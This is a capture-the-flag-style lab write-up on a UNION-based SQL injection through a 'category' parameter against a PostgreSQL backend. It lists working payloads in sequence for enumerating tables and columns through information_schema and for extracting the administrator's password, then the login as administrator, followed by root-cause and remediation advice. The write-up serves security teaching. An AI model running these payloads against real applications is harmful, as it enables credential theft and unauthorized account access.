






# SQL Injection UNION Attack, Retrieving Data from Other Tables


## Overview

This lab demonstrates how a vulnerable SQL query can be exploited using a **UNION-based SQL Injection** to retrieve sensitive information from database tables that were never intended to be exposed.

The application was vulnerable because user-controlled input from the **category** parameter was directly concatenated into SQL query without proper sanitization.

---

## Objective

The objective of this lab was to:

- Identify a UNION-based SQL Injection vulnerability.
- Determine the correct number of returned columns.
- Enumerate database tables.
- Locate the table containing user credentials.
- Enumerate columns inside the table.
- Extract administrator credentials.
- Authenticate as administrator.

---

## Methodology

### Step 1 - Testing for SQL Injection

The first step was to verify whether the **category** parameter was injectable.

The category value was modified with Boolean conditions.

**Payload**

```sql
' AND 1=1--
```

The page loaded normally.

---

**Payload**

```sql
' AND 1=0--
```

The page returned no products.

This confirmed that user input was affecting the SQL query, indicating a SQL Injection vulnerability.

---


---

### Step 2 - Identifying the Number of Columns

Since UNION attacks require the same number of columns as query, the next objective was to determining the No. of columns it have, different UNION SELECT payloads were tested until the correct number of columns was found.

Example:

```sql
' UNION SELECT NULL--
```

```sql
' UNION SELECT NULL,NULL--
```

The application accepted two columns.

---

### Step 3 - Identifying the Backend Database

To determine the database management system, the PostgreSQL version function was used.

```sql
' UNION SELECT version(),NULL--
```

Then, application displayed :

```
PostgreSQL 12.22
Ubuntu 12.22
```

which confirmed that the backend database was PostgreSQL.

---


---

### Step 4 - Enumerating Database Tables

Since PostgreSQL stores metadata inside the `information_schema`, table names were extracted using the:

**Payload**

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

A large list of database tables appeared,

Among them was an interesting table :
> users

This table likely contained authentication data.

---



---

### Step 5 - Enumerating Columns

After discovering the `users` table, the next objective was identifying its columns.

The following payload queried the metadata table.

**Payload**

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
```

The application returned:

```
username
password
email
```
---



---

### Step 6 - Extracting Usernames

After identifying the column names, usernames stored inside the users table were extracted.

**Payload**

```sql
' UNION SELECT username,NULL FROM users--
```

The page displayed multiple usernames including:

```
administrator
wiener
```

This confirmed successful access to another database table.

---


---

### Step 7 - Extracting Administrator Password

Once both required columns were known, the administrator password was extracted.

**Payload**

```sql
' UNION SELECT password,NULL FROM users WHERE username='administrator'--
```

The page returned the administrator password, this completed the information disclosure phase.

---


---

### Step 8 - Logging in as Administrator

Using extracted administrator credentials, the login page was accessed.

And with that, successful authentication solved the lab.

---


---

## Attack Flow

```
   User Input
        ⇓
category Parameter
        ⇓
SQL Query becomes injectable
        ⇓
Boolean Testing
        ⇓
Determine Column Count
        ⇓
Identify Database Version
        ⇓
Enumerate Tables
        ⇓
Locate users Table
        ⇓
Enumerate Columns
        ⇓
Retrieve Usernames
        ⇓
Retrieve Administrator Password
        ⇓
Login as Administrator
        ⇓
   Lab Solved
```

---

## Root Cause

The vulnerability exists because :

- User input is directly concatenated into SQL statements.
- No parameterized queries are used.
- Sensitive tables are accessible through injected UNION queries.

---

## Security Recommendations

### 1. Use Parameterized Queries

Prepared statements completely separate SQL logic from user input.

---

### 2. Never Build SQL Using String Concatenation

Avoid queries like,

```sql
SELECT * FROM products WHERE category=' " + userInput + " '
```

---

### 3. Apply Input Validation

Only allow expected values for user-controlled parameters.

---

### 4. Hide Database Errors

Disable verbose SQL error messages in production.

---

### 5. Implement Web Application Firewall (WAF)

A WAF can detect common SQL Injection patterns and block malicious requests.

---

## Conclusion

This lab demonstrated a complete **UNION-based SQL Injection attack** against PostgreSQL backend. By exploiting the vulnerable `category` parameter, it was possible to enumerate the database structure, identify the `users` table, discover its columns, and retrieve the administrator's credentials. These credentials were then used to authenticate successfully as the administrator, completing the lab.